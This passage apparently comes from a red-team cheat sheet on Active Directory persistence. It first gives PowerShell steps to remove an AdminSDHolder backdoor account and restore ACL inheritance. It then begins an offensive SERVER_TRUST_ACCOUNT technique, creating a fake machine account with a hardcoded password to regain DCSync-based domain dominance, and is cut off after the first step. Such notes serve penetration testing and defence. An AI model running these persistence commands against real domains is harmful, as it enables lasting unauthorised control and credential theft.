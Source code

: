 

### Remove the Backdoor

* [https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/](https://www.reddefenseglobal.com/blog/microsoft-domain-attack-techniques/admincount/)
* [https://www.ucunleashed.com/1621](https://www.ucunleashed.com/1621)

Disable or remove the account (if a new user was created):

```
PS > net user snovvcrash /domain /active:no
PS > net user snovvcrash /domain /del
```

Remove user AdminSDHolder container via GUI (ADUC, dsa.msc).

Clear the `AdminCount` attribute (will be resetted if the user is still in the `AdminSDHolder` container):

```
PV3 > Set-DomainObject -Identity snovvcrash -Domain megacorp.local -Clear admincount -Verbose
Or
PS > Get-ADUser snovvcrash | Set-ADObject -Clear admincount
```

Fix the inheritance rules:

```
PS > [bool]$isProtected = $false
PS > [bool]$PreserveInheritance = $true
PS > [string]$dn = (Get-ADUser snovvcrash).DistinguishedName
PS > $user = [ADSI]"LDAP://$dn"
PS > $acl = $user.objectSecurity
PS > $acl.AreAccessRulesProtected
True  # procced if True
PS > $acl.SetAccessRuleProtection($isProtected, $PreserveInheritance)
PS > $inherited = $acl.AreAccessRulesProtected
PS > $user.commitchanges()
PS > $acl.AreAccessRulesProtected
False
```




## SERVER_TRUST_ACCOUNT

* [https://stealthbits.com/blog/server-untrust-account/](https://stealthbits.com/blog/server-untrust-account/)

When DA is owned (or any other account with `DS-Install-Replica` permission), you can create a fake machine account (or use an existing real machine account), set `SERVER_TRUST_ACCOUNT` bit for it and perform DCSync on behalf of this account to regain domain dominance.

1\. Create a fake machine account:

```
PM > New-MachineAccount -MachineAccount FakeMachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PV3 > Get-DomainComputer FakeMachine | select name,primarygroupid,useraccountcontrol

name        primarygroupid        useraccountcontrol
----        --------------        ------------------
FakeMachine            515 WORKSTATION_TRUST_ACCOUNT
```
